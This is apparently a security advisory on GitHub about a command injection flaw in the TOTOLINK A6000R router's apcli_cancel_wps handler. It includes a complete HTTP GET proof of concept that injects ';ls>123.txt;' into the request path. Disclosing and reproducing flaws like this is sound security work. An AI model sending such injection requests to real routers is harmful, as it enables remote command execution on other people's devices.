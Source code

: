 # Vulnerability Title

TOTOLINK A6000R router has a command injection vulnerability

# Vulnerability Description
There is a command injection vulnerability in the apcli_cancel_wps function in the firmware version V1.0.1-B20201211.2000 of the TOTOLINK A6000R router.
An attacker can use this vulnerability to remotely execute system commands without authorization, causing the server to collapse.

# Vulnerability Location
/usr/lib/lua/luci/controller/mtkwifi.lua

# Firmware version
V1.0.1-B20201211.2000

# Code Analysis

There is a command injection vulnerability in the apcli_cancel_wps function in the /usr/lib/lua/luci/controller/mtkwifi.lua file, which is triggered by the iface parameter. 
An attacker can execute arbitrary commands on the router by constructing a special HTTP request.
![image](https://github.com/user-attachments/assets/7b601b61-0e6f-4cee-8d59-aea4bd5e21af)

route:/admin/mtk/wifi/apcli_cancel_wps/arg
![image](https://github.com/user-attachments/assets/0c4bb4f3-ebf9-42af-9f62-3ec668520ed7)

# Local reproduction

By sending an HTTP GET request to a specific URL, you can inject commands in the iface parameter. 
For example, you can inject the ls>123.txt command to list the directory contents to verify the existence of the vulnerability.
POC
```
GET /cgi-bin/luci/admin/mtk/wifi/apcli_cancel_wps/;ls>123.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=cb3a0fa98f87a1ace139e0d21a61953e
```
![image](https://github.com/user-attachments/assets/d91ec087-7c01-4aef-bc2a-9a9a45114c58)
![image](https://github.com/user-attachments/assets/7f88e08d-02d1-4879-b0b7-9d01f12e1738)

